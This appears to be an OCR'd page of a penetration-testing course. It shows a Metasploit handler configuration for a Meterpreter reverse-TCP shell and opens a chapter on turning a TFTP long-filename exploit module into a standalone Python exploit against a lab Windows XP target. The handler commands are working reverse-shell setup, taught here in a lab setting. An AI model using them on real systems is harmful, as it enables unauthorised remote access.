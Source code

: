 -Handlers
-Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming 
shells. Handlers should be in the following format.

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164
set LPORT 4444
set ExitOnSession false
exploit -j

-Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘





#######################################################################
# Chapter 13: Converting Metasploit Exploits to a Stand Alone Exploit #
#######################################################################



Sometimes you might want to have a stand alone exploit, but the only option out there is a Metasploit module. Sure 
you could always just fire up Metasploit and use it… but what fun would that be? Besides it’s great to understand 
what’s going on under the hood of the Metasploit modules for both getting a handle on writing your own exploits and 
in the future even writing your own Metasploit modules and contributing back to the fantastic project.
Requirements

●     Windows XP – SP3 Virtual Machine (Victim).
●     StrategicSec Virtual Machine (Attacker).
●     Allied Telesyn TFTP Server 1.9 (Available here:   http://netsec.ws/wp-content/downloads/at-tftpd19.exe).
●     A willingness to give things a go.


-The Target

-We’re going to be adapting the attftp_long_filename.rb module located at 
-/home/strategicsec/toolz/metasploit/modules/exploits/windows/tftp/attftp_long_filename.rb and changing it into our 
own stand alone Python exploit. I’m by no means an experienced exploit writer so this is something that I’ve hacked 
together and figured out myself, there may be more optimal ways of doing each step. Full credit must be given to 
‘patrick’ the original author of the module along with prop’s to c0re since we’re pulling out his return address.
attftp_long_filename.rb
